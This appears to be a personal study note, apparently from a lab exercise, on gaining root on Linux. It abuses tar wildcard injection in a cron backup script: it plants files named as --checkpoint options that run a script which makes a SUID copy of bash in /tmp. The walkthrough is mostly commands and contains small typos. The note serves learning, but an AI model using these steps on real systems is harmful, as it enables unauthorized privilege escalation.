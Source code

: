 This type of escalation leverages on the wildcards of cron ( `*` ) are used in the wrong way or when an attacker has access to the configuration file of `cron`.



In this case we can see that there is a cron with a specific path:
```bash
cat /etc/crontab
```
- ![[Pasted image 20250117160921.png]]

So let's look at it in order to understand what it does:
```bash
cat /usr/local/bin/compress.sh
```
- ![[Pasted image 20250117161017.png]]


So it creates a `backup` compressed file with the content of `/home/user`.

We can see in it that it uses a wildcard `*`:
- ![[Pasted image 20250117161206.png]]

So we can inject this `*` wildcard.


Using:
```bash
ls -la /ust/local/bin/compress.sh
```
- ![[Pasted image 20250117161305.png]]
- we can see that we have only read access to this script and we cannot modify it


# Creating a malicious script to run
So we can create a malicious script:
```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh
```

We make it executable:
```bash
chmod +x runme.sh
```

Since we can make an injection what we can do here is to create checkpoints with:
```bash
touch /home/user/--checkpoint=1

touch /home/user/--checkpoint-action=exec=sh\runme.sh
```


This because the `*` will be read as `---checkpoint=1`
And when this checkpoint is triggered we execute `sh\runme.sh`


At this point the system creates a `/tmp/bash` that gives us the root shell:
```bash
/tmp/bash
```
- ![[Pasted image 20250117162024.png]]

This works because the `tar` command sees the `*` as `--checkpoint`. Since we set the checkpoint in the folder in which is executed the command it will trigger the execution of the checkpoint script.

<mark style="background: #BBFABBA6;">We gain a root shell!</mark>